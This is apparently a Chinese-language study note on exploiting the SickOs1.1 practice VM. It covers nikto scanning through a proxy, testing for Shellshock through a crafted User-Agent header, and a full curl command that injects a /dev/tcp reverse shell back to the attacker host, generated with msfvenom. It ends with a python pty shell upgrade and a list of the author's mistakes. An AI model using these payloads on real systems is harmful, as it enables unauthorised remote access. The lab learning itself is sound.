







# SickOs1.1--shellshock

[TOC]

## nikto扫描

```
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo nikto -h 192.168.50.128 -useproxy http://192.168.50.128:3128

```



## Shellshock手工验证

```shell
sudo curl -v --proxy http://192.168.50.128:3128 http://192.168.50.128/cgi-bin/status -H "User-Agent:() { :;}; echo 'Content-Type: text/plain'; echo; echo shel_hello" 
```



## 利用

```shell
sudo msfvenom -p cmd/unix/reverse_bash lhost=192.168.50.129 lport=5050 -f raw
```



```shell
0<&113-;exec 113<>/dev/tcp/192.168.50.129/5050;sh <&113 >&113 2>&113
```

### 犯的错误

* 写错了回链地址，检查了好一会，真实场景务必警惕


## 构造攻击命令

猜猜我为什不写5050

```
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo curl -v --proxy http://192.168.50.128:3128 http://192.168.50.128/cgi-bin/status -H "User-Agent:() { :;}; echo 'Content-Type: text/plain'; echo; 0<&113-;exec 113<>/dev/tcp/192.168.50.129/4040;/bin/sh <&113 >&113 2>&113" 
```





### 犯的错误

* 一开始将端口写成5050，忘记了之前渗透时python计划任务回连的端口写的就是5050

* sh没有写全路径，导致sh找不到

  ```
  sudo curl -v --proxy http://192.168.50.128:3128 http://192.168.50.128/cgi-bin/status -H "User-Agent:() { :;}; echo 'Content-Type: text/plain'; echo; 0<&113-;exec 113<>/dev/tcp/192.168.50.129/4040;sh <&113 >&113 2>&113" 
  ```

  

  

## 提升体验

dpkg -l发现系统安装了python，因此可以利用python获得一个交互更加舒适的shell。

```
python -c "import pty;pty.spawn('/bin/bash')"
```



## 后续提权

此处略，参考<<SickOs1.1靶场记录>>


## 收获

1. nikto使用
2. 了解shellshock漏洞原理，以及利用
3. 了解cgi的概念
4. 学会msfvenom生成linux反向shell
5. 学会使用python提升反向shell交互醒
